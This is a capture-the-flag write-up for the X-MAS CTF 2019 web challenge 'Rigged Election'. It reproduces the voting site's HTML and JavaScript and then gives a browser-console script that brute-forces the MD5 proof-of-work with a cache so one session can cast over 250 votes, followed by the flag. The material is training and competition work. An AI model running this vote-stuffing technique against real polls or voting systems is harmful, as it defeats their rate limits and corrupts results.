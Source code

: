 # X-MAS CTF 2019 – Rigged Election

* **Category:** web
* **Points:** 50

## Challenge

> Come one, come all! We've opened up a brand new website that allows the Lapland people to vote the next big town hall project! Just upload your ideas on the platform and vote using your CPU power. We've made sure voting takes a great amount of effort, so there's no easy way to play the system.
> 
> If you are indeed able to vote more than 250 times, you will be congratulated as an active Lapland citizen and receive a prize worthy of this title.
> 
> Remote server: http://challs.xmas.htsp.ro:11001
> Author: Milkdrop
> Note: The ideas you post are public and logged, posting any X-MAS flags may > disqualify your team
> Note 2: You must send all 250 votes from the same PHP session, otherwise the server will not be able to send you the flag.

## Solution

With the website you can submit an idea. An ID is assigned to that idea and the idea can be voted.

Here the HTML source.

```html
<head>
	<link rel="stylesheet" type="text/css" href="style.css">
</head>

<body>
	<div class="container">
		<div id="status" class="status invisible"></div>

		<img src="/img/idea.gif">
		<h1 class="head"> Idea Voting System </h1>
		<img src="/img/idea.gif">

		<h2><i>Submit your idea:</i></h2>
		<form style="padding-left: 35px" action="/" name="newIdea" method="post">
			<textarea maxlength="31" style="margin-right: 45px; margin-bottom: 5px; height: 25px" placeholder="Name" cols="30" rows ="1" name="name"></textarea><br>
			<textarea maxlength="255" placeholder="I think that we should do X, because Y ..." cols="30" rows ="5" name="idea"></textarea>
			<input class="submitButton" type="submit" value="">
		</form>

		<div class="idea special"><b class="name">name</b> / 123456 Points<div class="vote">
						<div class="agree" onclick="vote(16773, 1)">(I agree)</div> / 
						<div class="disagree" onclick="vote(16773, 0)">(I disagree)</div>
					</div><div class="ideaText">Idea text.</div></div>
		<footer>
			As seen on Good Morning America
		</footer>

		<script src="/md5.js"></script>
		<script src="/index.js"></script>
	</div>
</body>
```

The JavaScript into `index.js` is the following.

```javascript
function generateRandom (length) {
	var result = '';
	var characters = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789';
	var charactersLength = characters.length;

	for (var i = 0; i < length; i++)
		result += characters.charAt (Math.floor (Math.random () * charactersLength));

	return result;
}

function vote (id, upvote) {
	var xhttp = new XMLHttpRequest ();
	xhttp.open ("GET", "/vote.php?g=1", false);
	xhttp.send ();
	var work = xhttp.responseText;

	var statusElement = document.getElementById ("status");
	statusElement.className = "status";
	statusElement.innerText = "CPU Voting on Idea #" + id + " ...";

	var found = false;
	while (!found) {
		var randomLength = Math.floor (7 + Math.random () * 18);
		var stringGen = generateRandom (randomLength);
		var md5Gen = md5 ("watch__bisqwit__" + stringGen);

		if (md5Gen.substring (0, work.length).localeCompare (work) === 0) {
			var url = "/vote.php?id=" + id + "&h=" + stringGen;
			if (upvote === 1)
				url += "&u=1";

			xhttp.open ("GET", url, false);
			xhttp.send ();
			found = true;
		}
	}

	location.href = "/";
}
```

The voting procedure requires that a sort of challenge is returned by the server after the first request, i.e. `xhttp.open ("GET", "/vote.php?g=1", false);`, and then the client has to find a string which produces a MD5 hash with the first characters equals to the challenge. The challenge is different each time.

To reduce the time of finding correct strings, a smart voter can be implemented, using a cache and storing all failed attempts. With this trick, after ~14M of requests all strings will be found inside the cache, reducing the time of generation.

The exploit is the following.

```javascript
function wait(ms) {
    var d = new Date();
    var d2 = null;
    do {
        d2 = new Date(); 
    } while(d2-d < ms);
}

function voteSmart(id) {
    
    const cacheLimit = 90000000;
    var cacheElements = 0;
    var cache = new Map();
    
    console.log("Start voting.");
    var votes = 0
    while(votes <= 250) {
    
        console.log("Cookies: " + document.cookie);
    
        var xhttp = new XMLHttpRequest ();
        xhttp.open ("GET", "/vote.php?g=1", false);
        xhttp.send ();
        work = xhttp.responseText;
        console.log("Work to find is: " + work);
        
        stringGen = "";
        if(work in cache) {
            console.log("Cache hit!");
            stringGen = cache[work];
            wait(1000);
        } else {
         
            var found = false;
            while(!found) {
                var randomLength = Math.floor(7 + Math.random () * 18);
                stringGen = generateRandom(randomLength);
                var md5Gen = md5("watch__bisqwit__" + stringGen);
                var md5Subs = md5Gen.substring(0, work.length);
                
                if(cacheElements < cacheLimit && !(md5Subs in cache)) { // Updating cache at runtime.
                    cache[md5Subs] = stringGen;
                    cacheElements++;
                    if(cacheElements % 1000000 == 0) {
                        console.log("There are " + cacheElements + " cache elements.")
                    }
                }

                if(md5Subs.localeCompare(work) === 0) {
                    found = true;
                }
            }
        }
        
        var url = "/vote.php?id=" + id + "&h=" + stringGen + "&u=1";
        xhttp.open ("GET", url, false);
        xhttp.send ();
        voteResult = xhttp.responseText;
        votes++;
        console.log(votes + " > " + voteResult);
        
        if(voteResult.includes("X-MAS{")) {
            alert(voteResult);
            break;
        }
         
    }
}

voteSmart(23148);
```

You can launch the exploit script into the browser console and then refresh the page to get the flag.

```
X-MAS{NASA_aint_got_n0thin_on_m3}
```